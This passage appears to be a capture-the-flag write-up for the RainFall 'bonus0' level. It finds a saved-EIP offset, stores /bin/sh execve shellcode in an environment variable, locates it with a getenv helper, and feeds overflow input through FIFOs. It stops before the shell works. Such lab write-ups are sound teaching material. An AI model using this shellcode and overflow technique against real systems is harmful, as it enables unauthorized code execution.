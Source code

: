 ![image](https://hackmd.io/_uploads/SJZLHWGLp.png)

Looking at the information, looks like the saved EIP is located at `0xbffff72c`, which is mapped to the last 6th character of our second input, lets verfy that using the new input
```
python -c "print 'B' * 25 + '\n'" > /tmp/input1
python -c "print 'A' * 14 + 'BBBB' + 'A'" > /tmp/input2
```

And as you can see, we manage to find the offset to the saved EIP
![image](https://hackmd.io/_uploads/H12NP-G8a.png)


Now for the actual shellcode, I used the one I generated previously and export it as an environment variable because there is no complicated argv calculations needed
```
export SHELLCODE=`python -c "print '\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80'"`
```

I also get the address of the environment variable using a small program
```clike=
// getenv.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
         }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

```
bonus0@RainFall:/tmp$ gcc getenv.c -o getenv && env -i PATH=$PATH SHELLCODE=$SHELLCODE ./getenv SHELLCODE ./bonus0
SHELLCODE will be at 0xbfffffd8
```

With the information, i will change the input and launch using the following 

```
mkfifo /tmp/input1ff
mkfifo /tmp/input2ff

python -c "print 'B' * 25 + '\n'" > /tmp/input1
python -c "print 'A' * 14 + '\xbf\xff\xff\xd8'[::-1] + 'A'" > /tmp/input2

env -i PATH=$PATH SHELLCODE=$SHELLCODE ./bonus0 < /tmp/input1ff
clear; cat /tmp/input1 - > /tmp/input1ff < /tmp/input2ff
clear; cat /tmp/input2 > /tmp/input2ff
```
Cant spawn the shell but got no errors, I try to combine the inputs together without FIFO since I dont need GDB anymore
